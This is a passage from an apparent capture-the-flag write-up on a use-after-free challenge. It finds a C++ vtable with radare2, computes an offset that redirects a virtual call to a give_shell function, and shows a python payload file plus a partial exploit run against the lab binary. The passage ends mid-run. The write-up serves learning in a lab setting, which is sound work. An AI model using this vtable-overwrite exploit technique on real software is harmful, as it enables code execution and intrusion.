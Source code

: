 With that information, we are ready to disassemble the `Man` object and first thing that comes to my mind is this line `mov qword [rax], 0x401570   ; [0x401570:8]=0x40117a sym.Human::give_shell ; "z.@"`. Now we can suspect that address `0x401570` is the address of the [vtable](https://en.wikipedia.org/wiki/Virtual_method_table) of this class. 

Every class containing virtual functions gets its own vtable that is used to resolve the address of te virtual function whenever such function is called. Luckily, we can list vtables with `radare2` command `av`.

{% highlight text %}
[0x00400de0]> av?
|Usage: av analyze the .rodata section and list virtual function present


[0x00400de0]> av

Vtable Found at 0x00401550
0x00401550 : sym.Human::give_shell
0x00401558 : sym.Woman::introduce


Vtable Found at 0x00401570
0x00401570 : sym.Human::give_shell
0x00401578 : sym.Man::introduce


Vtable Found at 0x00401590
0x00401590 : sym.Human::give_shell
0x00401598 : sym.Human::introduce
{% endhighlight %}

Great, our assumptions are correct and address `0x00401570` is the address of the `Man` class vtable. But why after calling this address, method `introduce()` is called instead of `give_shell()`? 

Coming back to disassembly of `main()` function, we have to remember that during the call address is incremented with `add rax, 8`. So in order to call the `give_shell()` function, we have to decrement `0x00401570` by 8. 

{% highlight python %}
>>> hex(0x00401570 - 8)
'0x401568'
{% endhighlight %}

Now we have the address of `give_shell()` that we can use in our exploit. Few runs of `2` option may guarantee that these bytes are at correct place. 

{% highlight bash %}
uaf@ubuntu:~$ python -c 'print("\x68\x15\x40\x00\x00\x00\x00\x00")' > /tmp/attackme
uaf@ubuntu:~$ ./uaf 8 /tmp/attackme
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use